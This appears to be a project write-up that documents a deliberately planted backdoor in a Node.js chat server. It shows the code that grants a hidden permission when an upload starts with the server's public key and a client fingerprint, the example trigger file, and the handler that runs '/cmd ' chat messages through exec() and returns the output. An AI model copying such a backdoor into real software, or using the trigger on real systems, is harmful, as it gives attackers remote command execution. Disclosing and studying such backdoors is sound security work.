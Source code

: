 ### Backdoors and Vulnerabilities
## Executing system commands on the server, from the client.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
  	var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
  			status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
Finally, whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (dataObj.data !== undefined) {
		var msg = dataObj.data.message;
		var cmd = "";
		if (ws.permission == 1) {
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```

